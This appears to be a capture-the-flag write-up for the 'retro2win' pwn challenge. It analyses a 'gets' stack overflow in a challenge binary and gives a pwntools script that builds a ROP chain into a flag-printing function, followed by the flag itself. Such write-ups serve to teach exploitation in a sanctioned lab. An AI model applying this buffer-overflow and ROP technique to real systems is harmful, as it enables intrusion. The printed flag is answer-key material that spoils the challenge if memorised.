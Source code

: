 https://ctftime.org/event/2446

# retro2win (pwn)

So retro.. So winning..

nc retro2win.ctf.intigriti.io 1338

## Analysis

`main` @ `0x004008b7`
- If we provide `1337` as input to `scanf(%d)` we call `enter_cheatcode`

`enter_cheatcode` @ `0x004007ee`
- This function calls `gets` with a buffer on the stack offset `0x18` from the return address

`cheat_mode` @ `0x00400736`
- This function checks if `rdi` contains `0x2323232323232323` and if `rsi` contains `0x4242424242424242` on entry
    - If they do it prints the flag

## Solution

1) Supply `1337` to call `enter_cheatcode`
2) ROP to `cheat_mode(0x2323232323232323, 0x4242424242424242)`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./retro2win", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("retro2win.ctf.intigriti.io", 1338)

p.sendlineafter(b"option:\r\n", str(0x539).encode())

rop = ROP(elf)
rop.raw(b"A" * 0x18)
rop.rdi = 0x2323232323232323
rop.rsi = 0x4242424242424242
rop.call("cheat_mode")

p.sendlineafter(b"Enter your cheatcode:\r\n", rop.chain())

p.readuntil(b"FLAG: ")

print(p.readline()[:-2].decode()) # INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
```

## Flag
`INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}`

smiley 2024/11/16

